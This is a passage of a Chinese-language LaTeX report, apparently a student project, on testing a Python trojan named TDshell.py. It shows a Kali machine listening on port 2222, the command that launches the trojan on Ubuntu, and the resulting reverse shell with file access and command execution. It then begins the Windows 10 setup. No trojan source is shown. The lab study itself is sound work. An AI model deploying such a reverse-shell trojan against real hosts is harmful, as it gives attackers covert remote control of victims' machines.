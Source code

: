\begin{figure}[h]
\centering
\texttt{[image: Kali监听2222]}
\caption{Kali监听2222端口}
\label{fig:3}
\end{figure}


Ubuntu中在终端里通过切换命令跳转到木马程序当前路径下，或者在图形界面在木马程序文件夹内选中在当前文件夹下以终端形式打开，再通过输入python TDshell.py -s [ip] [port]命令来启动攻击机主机客户端的监听功能，设定服务端IP地址和监听端口。


\begin{figure}[h]
\centering
\texttt{[image: ubuntu启动客户端.png]}
\caption{Ubuntu执行脚本客户端模式}
\label{fig:4}
\end{figure}

切回Kali Linux之后可以看到终端中反弹到了宿主主机中当前文件夹的绝对路径，并且可以读写文件，执行终端命令。
\begin{figure}[h]
\centering
\texttt{[image: kali确认ubuntu身份.png]}
\caption{Kali拿到Ubuntu shell}
\label{fig:5}
\end{figure}






\section{Windows环境下测试}
\subsection{Windows 10环境测试}

\begin{itemize}
	\item 宿主主机：Windows 10 
	\item 攻击主机：Kali Linux 2.0
\end{itemize}




先在Windows 10中通过图形界面安装python安装包，勾选配置环境变量完成python环运行境的安装。
\begin{figure}[h]
\centering
\texttt{[image: win10安装python.png]}
\caption{python环境配置}
\label{fig:6}
\end{figure}

因为Windows自身的原因，需要配置环境变量之后才可以在终端运行的时候通过命令行执行python程序。如图4-12 所示完成配置。
\begin{figure}[h]
\centering
\texttt{[image: win10设置环境变量.png]}
\caption{python环境变量配置}
\label{fig:6}
\end{figure}


